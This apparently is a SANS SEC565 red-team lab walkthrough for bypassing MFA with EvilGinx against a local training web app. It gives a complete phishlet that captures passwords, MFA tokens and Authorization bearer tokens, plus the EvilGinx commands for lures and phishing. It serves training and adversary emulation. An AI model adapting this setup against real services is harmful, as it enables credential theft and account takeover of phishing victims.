

# Lab: Bypassing MFA with EvilGinx - SEC565 DEMO

This lab is a bonus lab in SANS SEC565: Red Teaming and adversary emulation.
For more information, or to enroll please check

https://www.sans.org/cyber-security-courses/red-team-operations-adversary-emulation/

## Objectives

- set up an EvilGinx Phishlet to target the phisherman web application
- phish the victim user
- inject victim user's session into attackers browser


### TTPs Emulated in This Lab


- [T1539: Steal web session token ](https://attack.mitre.org/techniques/T1539/)
- [T1185: Browser Session Hijacking  ](https://attack.mitre.org/techniques/T1185/)


## Preparation


### Summary "Preparation Steps"

Download the phisherman containers from Github: <br>

```Bash
cd ~/Desktop
git clone https://github.com/jfmaes/phisherman
```

cd into the phisherman folder: <br>

```Bash
cd phisherman/phisherman
```

Build the Docker containers using Docker-Compose (this can take a bit of time): <br>

```Bash
docker-compose up --build
```

Modify (using sudo) the `/etc/hosts/` in your VM to include the IP addresses of the docker containers.
add the following values to the file: <br>

```
172.13.37.11    sec565.rocks
172.13.37.12    sec565.phish
172.13.37.13    mailhog.local
```

## On your own

  1. Build a phishlet for the phisherman website (sec565.rocks) <br>
  2. Phish the victim user (using the automatic phishing simulation button) <br>
  3. inject authorization header into your own web browser to bypass MFA <br>


  ## Walkthrough

  In this lab we will explore how to setup evilginx (a proxy in the middle framework) and how we can use it to bypass multifactor authentication.

  EvilGinx uses the concepts of phishlets (https://help.evilginx.com/community/phishlet-format) to capture credentials and the authenticated session token.
  In order for us to create a phishlet we first need to understand our target website.


  ### Exploring the target

  Let's browse to our target website.

  1. Open up a webbrowser and browse to https://sec565.rocks


     


  2. Click on the login button.

        This will reveal two important fields to us, the username field and password field.

        We need to keep track on how these fields are called in the HTML code so we can feed it to our phishlet later.

        We can do this in a lot of ways such as using an intercepting proxy like BurpSuite or use the developertools and inspect the elements. Put your cursor in the email input bar and right click. Select inspect from the menu.

        


  3. In the developer console that opened, you can see that the email field has a `name` attribute called email.


        

  4. We can do the same for the password input bar, this would reveal that the password field has a `name` attribute called password.

  


  5. The best way to create a phishlet is actually signing up for an account and understanding how the application works. So let's do that now.
  Go ahead and click the register button.

  6. You can fill out any first and last name as well as email and password that you want. This data is all localized and does not get sent anywhere nor is there strict validation on input so feel free to insert fake data.

     

  7. Scan the QR on the website code with your phone (it's not Quishing, we promise). <br>

     **EXAMPLE QR CODE, DO NOT SCAN THIS ONE**

     

  8. Open up the developer console (F12 on your keyboard), navigate to the Network tab and go back to the login page.

        

  9. Fill out your credentials that you used to register your account and press submit.

  10. This will bring you to a MFA page prompting for your device code on your phone's authenticator application. In your developer tab you should also now see a `POST` request. <br>
  Click on the `POST` request and select the `Request` tab on the right hand side. In there you can see the data we passed to the webserver, which is JSON format containing two items. an `email` and a `password`, coincidentally the same parameters we parsed when we inspected the elements on the web application in step 3 and 4.

        

  11. Fill out your MFA code whilst you keep the developer tab open and click next.

        

  12. Once you succesfully logged into the application, you are going to see another `POST` request in your developer tab as well as calls to the validate-token API endpoint and the sensitive-data API endpoint. Inspecting the MFA POST request, will reveal another JSON post. This time containing email as well as mfaToken.

        

  ### Creating the phishlet.

  Now that we have some knowledge on the flow of the application, we can create our phishlet.
  Navigate to your phisherman directory and create a new file called `sec565rocks.yaml`.

  

  13. Go ahead and copy the contents from `example.yaml` into `sec565rocks.yaml`.

        

  14. The first thing to edit in the phishlet is the `proxy_hosts`.

        ```
        This section describes all subdomains and domains that Evilginx will handle for proxying the traffic between the visitor and legitimate host.

        ```

        We will have to modify line 3 of the example phishlet to the following values:

        ```
        phish_sub: '', orig_sub: '', domain: 'sec565.rocks', session: true, is_landing: true, auto_filter: true
        ```

        This instructs EvilGinx to proxy any traffic that's intended for `sec565.rocks`. Since our domain does not have a subdomain, we can leave the `orig_sub` empty.


  15. Our `sec565.rocks` website does not redirect to any external websites. So we can remove the `sub_filters` from our phishlet (lines 4 and 5).

  16. The next step is figuring out how sessions remain authenticated in the web application.
      Modern web applications can use a variety of session management tools such as HTTP headers (Authorization header) or cookies.

      If we take a look at our developer console requests, we can see that we have a call to `validate-token`. This likely means that a login was successfull and that some type of token is being validated against the backend.

      If we inspect the request headers, it reveals that there is in fact an Authorization header being sent to the backend, which signifies that the backend is doing session management through authorization token.

      

  17. Now that we know that the web application is doing session management using an Authorization header, we can put it in our phishlet. <br>


        Here's what `auth_tokens` are used for according to Evilginx's documentation

        ```
        Defines tokens to capture in transmitted proxied request or response. The tokens can either be extracted from cookies or response body sent by the server or from HTTP headers found in client requests. When all tokens are retrieved the authentication session is considered to be fully captured and a phishing attack is considered a success. When this happens, the user will be redirected to the URL specified in the phishing lure.
        ```

        Replace the `auth_tokens` section of the phishlet with the following information.


        ```bash

        auth_tokens:
        - domain: 'sec565.rocks'
            path: '/api/auth/validate-token'
            name: 'token'
            header: 'Authorization'
            type: 'http'

        ```

18. We can specify `auth_urls` im phishlets as well. This tells EvilGinx that authentication was successful, as per documentation:

    ```
    By default Evilginx will consider the session as authenticated when all cookies defined in auth_tokens section are captured. The exception is when the names of the cookies, you need to capture, are generated dynamically. In such scenario you need to use regular expressions to search for session cookies or just capture all of them. Evilginx will then not know when all of the session cookies have been captured and will need an alternative way to trigger the successful session capture.

    Session will be considered captured when request to any of the defined URL paths is made. These URL paths should only be accessible after the user has successfully authenticated, thus indicating the authentication was successful.

    ```

    In our authentication flow, we can see a few API calls that can only be made when we are authenticated. API calls include:
    - /sensitive-data
    - /users
    - /validate-token

    We can include all of these, or just one of them. The sensitive-data endpoint makes the most sense as the application calls that API endpoint immediately after we succesfully authenticated.

    Let's go ahead and add the following `auth_urls`:

    ```bash
    auth_urls:
    - '/sensitive-data'
    - '/users'
    - '/validate-token'
    ```

19. Next up is the `credentials` field in a phishlet. These properties tell EvilGinx the type of credentials we are looking after. Traditionally this will be a username and password, but EvilGinx also supports custom credential types based on regular expressions. For example, we can also intercept the MFA token itself if we wanted to.

    We already know that we are sending `email` (as username), `password` (as password) and `mfaToken` as MFA token in JSON requests to the web server through the authentication flow. So we can add the following credential block in the phishlet:

    ```bash

    credentials:
    username:
        key: ''
        search: '"email":"([^"]*)'
        type: 'json'
    password:
        key: ''
        search: '"password":"([^"]*)'
        type: 'json'
    custom:
        key: 'mfaToken'
        search: '"mfaToken":"([^"]*)'
        type: 'json'

    ```

20. The only thing left to do now is tell EvilGinx what exactly the logon endpoint is so EvilGinx knows what to serve the victim if we are going to create the lure.

    ```bash

    login:
    domain: 'sec565.rocks'
    path: '/login'

    ```


The full phishlet should look like this:

```bash

min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: '', orig_sub: '', domain: 'sec565.rocks', session: true, is_landing: true, auto_filter: true}
auth_tokens:
  - domain: 'sec565.rocks'
    path: '/api/auth/validate-token'
    name: 'token'
    header: 'Authorization'
    type: 'http'
auth_urls:
  - '/sensitive-data'
  - '/users'
  - '/validate-token'

credentials:
  username:
    key: ''
    search: '"email":"([^"]*)'
    type: 'json'
  password:
    key: ''
    search: '"password":"([^"]*)'
    type: 'json'
  custom:
    key: 'mfaToken'
    search: '"mfaToken":"([^"]*)'
    type: 'json'

login:
  domain: 'sec565.rocks'
  path: '/login'

```


21. Now that our phishlet is complete, it's time to set it up in evilginx. We will bash into the EvilGinx container.
    In a  new terminal window, execute the following command:


    ```bash

    docker exec -it phisherman-evilginx-1 /bin/bash

    ```

22. Once bashed into the container, launch EvilGinx in `developer` mode. Developer mode ensures that domain checks are not enforced and allows us to specify the loopback interface as public facing IP address.

    This is of course because we are running everything locally. In a real operation you'd have to specify your internet facing IP address here.

    ```bash
    ./evilginx -developer
    ```

    


23. EvilGinx will helpfully give us suggestions of what to do next. Right now we need to specify the phishing domain as well as the public IP address of our EvilGinx server.

    type the following commands in EvilGinx:

    ```bash
    config domain sec565.phish
    ```


    ```bash
    config ipv4 external 127.0.0.1
    ```


    This sets our phishing domain to `sec565.phish` as that's what we put in our hosts file.
    In a real operation you'd obviously need to specify an actual domain that you own.

    Since we are running in dev mode, the domain verification check is not being enforced, hence why we set our IPV4 to loopback.


    


24. Now that we have set the phishing domain and server IP, we can tie our phishing domain to our phishlet. We do this using the following command

    ```bash
    phishlets hostname sec565rocks sec565.phish
    ```

25. Once we have tied our phishing domain to our phishlet, we can enable the phishlet.

    ```bash
    phishlets enable sec565rocks
    ```

26. Now that we have enabled our phishlet, we can generate lures for our phishlet. A lure is going to be the link we actually send to our victim.


    ```bash
    lures create sec565rocks
    ```

    Once we have a lure created we can get the lure URL using

    ```bash
    lures get-url <lure ID>
    ```

    for example

    ```bash
    lures get-url 0
    ```

    


27. Now that we have the lure, we can send our phish to our victim! Browse to https://sec565.rocks and click on the `Automatic Phishing Simulation` button.


    

28. Come up with a subject and pretext. Make sure that you include your lure URL in the email body!

    


29. Once satisfied click on the `Send Phishing Email` button and take a look in your EvilGinx terminal to see the magic unfold!

    


    


    The only thing left to do is take the bearer token and inject it into your own session :) I will leave that up to you! Or... I can show you in SEC565 :)

